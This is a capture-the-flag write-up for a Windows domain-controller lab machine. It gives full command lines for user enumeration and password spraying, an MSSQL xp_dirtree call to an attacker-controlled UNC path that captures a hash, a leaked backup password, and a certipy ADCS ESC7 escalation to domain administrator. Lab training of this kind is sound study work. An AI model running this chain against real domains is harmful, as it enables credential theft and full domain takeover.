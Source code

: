 #Pwned! 
```IP
10.10.11.236
```
# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 10.10.11.236 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus     
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Manager
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-12-29 16:29:33Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127     
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49689/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49691/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49721/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49768/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## HTTP 80
nothing interesting after fuzzing and analyzing source code
## Kerberos 88
kerbrute user enumeration:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229104001.png?raw=true)
## SMB
```
nxc smb 10.10.11.236 -u 'test' -p '' --shares
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229104137.png?raw=true)
```
nxc smb 10.10.11.236 -u 'test' -p '' --rid-brute 3000
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229104147.png?raw=true)
We have no interesting shares apparently.
After some trial and error, I discovered that we get a hit with `operator` if we make the user list without capital letters:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229112128.png?raw=true)
```
operator:operator
```

## LDAP
operator is a hit too if we execute nxc against ldap protocol:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229113313.png?raw=true)
However ldapsearch doesn't seem capable of retrieving much data:
```
ldapsearch -H ldap://dc01.manager.htb -x -D 'operator@manager.htb' -w 'operator' -b "DC=manager,DC=com"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229113253.png?raw=true)
So we will use ldapdomaindump:
```
ldapdomaindump -u management.htb\\operator -p 'operator' 10.10.11.236 -o ./
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229113421.png?raw=true)
We see that raven is apparently the only user capable of connecting remotely. Let's try bruteforcing his password:
```
nxc winrm 10.10.11.236 -u raven -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```
But we have no success.
## MSSQL
We can access the database with operator:operator
```
impacket-mssqlclient Operator@manager.htb -windows-auth
```
cmdshell is disabled, but we can execute xp_dirtree:
```
xp_dirtree '\\10.10.14.9\test'
```
And we get a manager hash, that we can't crack neither with john or hashcat.

# Exploitation
In MSSQL, we can also enumerate the C directories in the target machine with dirtree. This path will lead us to a old backup of the website inside the inetpub/wwwroot directory:
```
xp_dirtree C:\inetpub\wwwroot
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229115042.png?raw=true)
We should be able to download it with a browser. Once downloaded, I create a new folder in my local machine and unzip its contents there:
```
unzip website-backup-27-07-23-old.zip -d backup-old
```
Inside `.old-conf.xml` we find a password for user raven:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229115425.png?raw=true)
Let's try our credentials on winrm:
```
R4v3nBe5tD3veloP3r!123
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229115655.png?raw=true)
We get access to raven and its user.txt flag.
# PrivEsc

## Manual
After some unsuccessful manual enumeration, knowing that it is a windows domain, we are left with certificates (ADCS) and Bloodhound.

```
certipy-ad find -vulnerable -stdout -u raven@10.10.11.236 -p 'R4v3nBe5tD3veloP3r!123'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229122653.png?raw=true)
We can see how to escalate this vulnerability in the official certipy page:
https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7
```
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```
```
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```
```
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -template SubCA -upn administrator@manager.htb
```
```
certipy-ad ca -ca manager-DC01-CA -issue-request 20 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```
```
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -retrieve 20
```
We can now retrieve an NTLM hash with our administrator.pfx:
```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229125317.png?raw=true)
We get an error message because the target machine date and our VM date differs too much. We can synchronize the dates with ntpdate tool:
```
sudo ntpdate 10.10.11.236
```
And now we can use evil-winrm to get an administrator shell and the root flag:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229125417.png?raw=true)

## Automated

### Peass
### Mimikatz

# Lateral Movement

